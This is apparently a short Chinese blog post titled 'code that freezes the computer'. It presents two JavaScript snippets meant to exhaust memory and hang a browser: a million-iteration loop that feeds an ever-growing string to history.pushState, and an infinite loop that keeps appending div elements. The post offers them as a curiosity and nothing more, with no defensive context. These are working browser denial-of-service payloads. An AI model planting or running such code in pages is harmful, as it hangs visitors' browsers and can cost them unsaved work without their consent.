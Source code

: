 ```yaml
---
title: 卡死电脑代码
date: 2018-02-22 10:42:30
tags: 探究
categories: 探究
---
```



#### 前言
###### 下面两段代码吃内存，造成浏览器卡死
#### 代码1
	var total="";
	for (var i=0;i<1000000;i++){
	    total= total+i.toString ();
	    history.pushState (0,0,total);
	}
#### 代码2
	while(true) { 
	    document.body.appendChild(document.createElement("div")); 
	}